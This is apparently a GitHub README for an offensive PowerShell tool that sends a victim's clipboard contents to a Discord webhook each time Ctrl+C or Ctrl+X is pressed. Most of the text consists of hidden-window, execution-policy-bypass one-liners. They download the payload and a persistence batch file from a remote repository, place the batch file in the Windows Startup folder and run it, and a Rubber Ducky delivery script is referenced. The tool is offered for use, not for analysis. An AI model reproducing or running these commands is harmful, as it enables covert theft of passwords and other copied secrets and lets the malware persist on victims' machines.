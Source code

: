 # Clipboard Exfiltration Using Discord Webhook

![](https://cyberhoot.com/wp-content/uploads/2019/12/Data-Exfiltration.jpg)


**The powershell scripts posts the clipboard content to the Discord chat when the user presses Ctrl+c or Ctrl+x**

Save update.ps1 to $env:userprofile\AppData\Roaming 

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

**The bat file is placed in startup folder for persistence**

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'

Then run the bat file for the first time

    Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

**All together**

```
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

```

The rubber ducky script to execute the above commands is [here](./rubberduckyscript.txt)
